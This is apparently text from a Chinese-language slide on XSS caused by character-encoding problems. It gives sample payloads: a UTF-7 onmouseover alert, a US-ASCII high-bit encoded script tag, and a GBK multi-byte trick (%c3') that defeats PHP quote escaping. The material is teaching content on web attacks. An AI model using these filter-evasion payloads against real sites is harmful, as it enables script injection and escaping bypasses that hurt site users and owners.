

# 6、编码问题导致的XSS
utf-7编码
+ACI- onmouseover=+ACI-alert(/xeye/)+ADsAIg- x=+ACI-
us-ascii编码的high bit问题
%A2%BE%BCscript%BEalert(/xeye/);%BC/script%BE
multi-byte编码
gbk, big5, euc-jp等
eg：%c3'绕过gbk编码环境下的php对'的转义：%c3\'-->肻'
…